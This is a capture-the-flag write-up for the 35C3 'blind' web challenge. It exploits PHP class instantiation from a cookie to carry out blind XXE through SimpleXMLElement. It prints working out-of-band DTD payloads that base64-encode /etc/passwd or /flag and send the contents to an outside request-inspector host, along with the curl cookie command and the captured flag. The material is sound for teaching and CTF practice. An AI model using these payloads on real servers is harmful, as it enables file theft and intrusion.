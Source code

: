 # blind
Web

## Description:
> Hacking blind: http://35.207.132.47:82
> 
> Flag is at /flag

## Solution:

The contents of the website is:
```php
 <?php
  function __autoload($cls) {
    include $cls;
  }

  class Black {
    public function __construct($string, $default, $keyword, $store) {
      if ($string) ini_set("highlight.string", "#0d0d0d");
      if ($default) ini_set("highlight.default", "#0d0d0d");
      if ($keyword) ini_set("highlight.keyword", "#0d0d0d");

      if ($store) {
            setcookie('theme', "Black-".$string."-".$default."-".$keyword, 0, '/');
      }
    }
  }

  class Green {
    public function __construct($string, $default, $keyword, $store) {
      if ($string) ini_set("highlight.string", "#00fb00");
      if ($default) ini_set("highlight.default", "#00fb00");
      if ($keyword) ini_set("highlight.keyword", "#00fb00");

      if ($store) {
            setcookie('theme', "Green-".$string."-".$default."-".$keyword, 0, '/');
      }
    }
  }

  if ($_=@$_GET['theme']) {
    if (in_array($_, ["Black", "Green"])) {
      if (@class_exists($_)) {
        ($string = @$_GET['string']) || $string = false;
        ($default = @$_GET['default']) || $default = false;
        ($keyword = @$_GET['keyword']) || $keyword = false;

        new $_($string, $default, $keyword, @$_GET['store']);
      }
    }
  } else if ($_=@$_COOKIE['theme']) {
    $args = explode('-', $_);
    if (class_exists($args[0])) {
      new $args[0]($args[1], $args[2], $args[3], '');
    }
  } else if ($_=@$_GET['info']) {
    phpinfo();
  }

  highlight_file(__FILE__);

```

The first thing that leaps to the eye is that we are able to view the output of `phpinfo` by sending `?info=1`. However, I did not find anything interesting in the output.

The following code seems like the next place to invest efforts in:
```php
else if ($_=@$_COOKIE['theme']) {
  $args = explode('-', $_);
  if (class_exists($args[0])) {
    new $args[0]($args[1], $args[2], $args[3], '');
}
```

We can supply a class name in the cookie, and the code will instantiate the class for us, together with some user-provided parameters. The programmer intended for this to be used only with `Green` and `Black` classes, but we can provide any class we want (as long as it returns true for `class_exists`). 

One option is to try and perform a Blind XXE attack using the [SimpleXMLElement](http://php.net/manual/en/class.simplexmlelement.php) class. 

What's an XXE attack?
> An XML External Entity (XXE) attack is a type of attack against an application that parses XML input. This attack occurs when XML input containing a reference to an external entity is processed by a weakly configured XML parser. This attack may lead to the disclosure of confidential data, denial of service, server side request forgery, port scanning from the perspective of the machine where the parser is located, and other system impacts. ([source](https://www.owasp.org/index.php/XML_External_Entity_(XXE)_Processing))

This means, that we can create "entities" in the XML which are evaluated during runtime, instead of providing a static XML document. For example:

```xml
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY example "Doe"> ]>
 <userInfo>
  <firstName>John</firstName>
  <lastName>&example;</lastName>
 </userInfo>
 ```

 If XML entity processing is allowed, this XML should output:
 ```xml
 <userInfo>
  <firstName>John</firstName>
  <lastName>Doe</lastName>
 </userInfo>
 ```

 Advanced features are available as well, such as the `SYSTEM` keyword, which allows, for example, to leak file content:
 ```xml
 <?xml version="1.0"?>
<!DOCTYPE data [
<!ELEMENT data (#ANY)>
<!ENTITY file SYSTEM "file:///etc/passwd">
]>
<data>&file;</data>
```


Now, the `SimpleXMLElement` class "Represents an element in an XML document", but the real beauty of it is hidden in the constructor:

> # SimpleXMLElement::__construct
> ## SimpleXMLElement::__construct — Creates a new SimpleXMLElement object 
> ```php
> final public SimpleXMLElement::__construct ( string $data [, int $options = 0 [, bool $data_is_url = FALSE [, string $ns = "" [, bool $is_prefix = FALSE ]]]] )
> ```
>  * data:    A well-formed XML string or the path or URL to an XML document if data_is_url is TRUE.
> * options: Optionally used to specify additional Libxml parameters. 
> * data_is_url: By default, data_is_url is FALSE. Use TRUE to specify that data is a path or URL to an XML document instead of string data. 
> * ...

Instead of providing an XML string, we can provide a URL which contains the XML. We just need to make sure that we provide the option of `LIBXML_NOENT` (2), which actually tells the function to "[substitute entities](https://stackoverflow.com/questions/29811915/external-entities-not-working-in-simplexml)" (as opposed to its name). 

We can find many different XXE payloads at the [PayloadAllTheThings page](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20injection). The one that worked for me is "**XXE OOB with DTD and PHP filter**":

```xml
<?xml version="1.0" ?>
<!DOCTYPE r [
<!ELEMENT r ANY >
<!ENTITY % sp SYSTEM "http://127.0.0.1/dtd.xml">
%sp;
%param1;
]>
<r>&exfil;</r>

File stored on http://127.0.0.1/dtd.xml
<!ENTITY % data SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % param1 "<!ENTITY exfil SYSTEM 'http://127.0.0.1/dtd.xml?%data;'>">
```

### Step 1: Create Request-Inspector Endpoint:
Head to [RequestInspector](https://requestinspector.com) and create an endpoint. This will provide us with a URL such as `https://requestinspector.com/inspect/01d0fpjtce5cd5ae80menm0hyw`. Every time this URL is accessed, the complete request data (including full URI, headers and parameters) is logged to an interactive realtime log.

### Step 2: Create Secondary XML File:
Head to [PasteBin](https://pastebin.com) and paste the following:
```xml
<!ENTITY % data SYSTEM "php://filter/convert.base64-encode/resource=/flag">
<!ENTITY % param1 "<!ENTITY exfil SYSTEM 'https://requestinspector.com/inspect/01d0fpjtce5cd5ae80menm0hyw?%data;'>">
```

Raw output will be available in a URI such as `https://pastebin.com/raw/AMFPkydv`.

This command tells the XML engine to take the contents of `/flag`, base64-encode it, and send it as a parameter to the request inspector URI.

### Step 3: Create Primary XML File:
Paste another XML file in PasteBin:
```xml
<?xml version="1.0" ?>
<!DOCTYPE r [
<!ELEMENT r ANY >
<!ENTITY % sp SYSTEM "https://pastebin.com/raw/AMFPkydv">
%sp;
%param1;
]>
<r>&exfil;</r>
```

Raw output will be available in a URI such as `https://pastebin.com/raw/n23gK8ig`.

This command tells the XML engine to resolve and execute the other XML file.

### Step 4: Send the Cookie
Access the website with in order to instantiate the SimpleXMLElement element from the URI.

```console
curl --cookie "theme=SimpleXMLElement-https://pastebin.com/raw/n23gK8ig-2-true" http://35.207.132.47:82/
```

### Step 5: View the Request-Inspector Log:

The log shows:
```
GET /inspect/01d0fpjtce5cd5ae80menm0hyw?MzVjM19ldmVuX2FfYmxpbmRfc3F1aXJyZWxfZmluZHNfYV9udXRfbm93X2FuZF90aGVuCg== HTTP/1.1
requestinspector.com
Accept-Encoding: gzip
User-Agent: Go-http-client/1.1 
```

### Step 6: Decode the Flag:

The flag is base64 encoded
```
# echo MzVjM19ldmVuX2FfYmxpbmRfc3F1aXJyZWxfZmluZHNfYV9udXRfbm93X2FuZF90aGVuCg== | base64 -d
35c3_even_a_blind_squirrel_finds_a_nut_now_and_then
```

